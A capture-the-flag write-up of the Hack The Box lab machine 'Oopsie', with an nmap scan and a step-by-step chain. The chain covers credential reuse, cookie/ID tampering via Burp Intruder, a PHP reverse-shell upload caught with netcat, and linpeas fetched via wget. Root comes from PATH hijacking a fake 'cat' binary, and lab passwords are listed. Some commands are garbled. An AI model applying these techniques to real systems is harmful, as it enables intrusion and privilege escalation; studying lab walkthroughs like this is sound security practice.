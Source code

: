 # Oopsie (Linux)

## Overview

- ..


## Scanning 

```bash
# Nmap 7.91 scan initiated Tue Aug 24 14:27:02 2021 as: nmap -T4 -p- -A -oA nmap/scan 10.10.10.28
Warning: 10.10.10.28 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.28 (10.10.10.28)
Host is up (0.25s latency).
Not shown: 65528 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
6887/tcp  filtered unknown
25888/tcp filtered unknown
36624/tcp filtered unknown
53735/tcp filtered unknown
64127/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

--- Deleted OS Info bloat ---

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   249.40 ms 10.10.14.1 (10.10.14.1)
2   250.76 ms 10.10.10.28 (10.10.10.28)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 24 14:42:01 2021 -- 1 IP address (1 host up) scanned in 899.37 seconds

```

## Enumeration

1. Visit the site, realize that there is a login page somewhere because of the details on the last paragraph
2. Use dirbuster to discover hidden directories
3. Find `/cdn-cgi/login/index.php`
4. Try logging in with details from previous box (archetype) *admin:MEGACORP_4dm1n!!* 
5. After looking around, we realize that there is an uploads folder that can only be accessed by a *super admin*
6. We realize that on the accounts page, the website is using a cookie identification system with the `id` parameter.
7. Open this up in burpsuite and we realize that we can change the `id` parameter to get the `Access ID` for different users, we attempt to run this through the intruder.
8. Send `accounts` request to intruder, set the $ on the `id` tag, generate a list of numbers from 1-100 (using whatever method, see below for using bash):
> ```bash 
for seq 1 100; do echo $i; done 

9. Paste numbers 1-100 in payloads (simple list) tab, configure options to follow redirects. 
10. Inspect all responses looking for *superadmin* and we discover the `id` is 30 and `Access ID = 86575`
11. Intercept request for uploads page and modify cookie parameters with Access ID of 86575.
12. We have got access to this page.
13. Since it's php, we try uploading a php reverse shell. 
14. Modify upload request with the same Access ID.
15. Setup netcat on attacker machine `nc -lvnp 1234`
16. Visit the `/uploads/shell.php` page, we got access to the box!
17. `cat /home/robert/user.txt`
18. Change shell prompt to make it more simpler: 
```bash
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```
19. Attempt to privesc to gain root privs:
- Download linpeas on host
- Host via python
- Download via wget on victim machine with `tee result.txt`
- Analyze:
Realize that there is an unidentified binary `/usr/bin/bugtracker` however we cannot run it as we are not robert.
20. Try to find roberts login details: `cd /var/www/html/cdn-cgi/login` and `cat db.php`
21. Discover roberts login details:

![[Pasted image 20210825132921.png]]

22. Run `su robert` with the password.
23. Then run `/usr/bin/bugtracker`
24. Run `strings /usr/bin/bugtracker` and realize that it runs `cat /root/report`
25. Create a malicious `cat` binary which will provide us with root privs:
```bash
exportPATH=/tmp:$PATH
cd /tmp/
echo'/bin/sh' > cat
chmod+x cat
```
26. `/usr/bin/bugtracker, input:1`
27. Run `less /root/root.txt`
28. Post Exploitation:

- Discover .config folder with details about a ftp user (possibly for attacking the next machine):


*user: ftpuser*
*pass: mc@F1l3ZilL4*
